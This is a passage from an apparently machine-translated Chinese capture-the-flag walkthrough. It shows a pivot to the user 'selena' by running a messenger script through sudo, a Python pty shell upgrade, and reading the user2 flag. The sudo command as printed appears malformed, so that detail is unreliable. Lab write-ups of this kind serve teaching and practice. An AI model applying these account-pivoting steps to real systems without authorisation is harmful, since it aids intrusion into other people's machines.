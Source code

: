 **这看起来像是给用户发送信息的信使。**

**我们将以 selena 用户的身份在/home 目录下运行这个二进制文件，**

```
sudo -l selena /home/messenger.sh
```

**![](img/f764a55ff00726699bddeae9fbb9a60c.png)**

**我们获得了塞莱娜用户的权限。**

**现在，我们将使用 python 升级 shell，然后让我们看看 user2 标志，**

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 
cd selena 
ls
```

**![](img/116e98bbf7b1e2757c7e594579e72cfb.png)**

**我们有两份文件。让我们先看看 user2 标志。**

```
cat user2.txt
```

**![](img/aedcb6a3e75e46fc9a29311970182b30.png)**
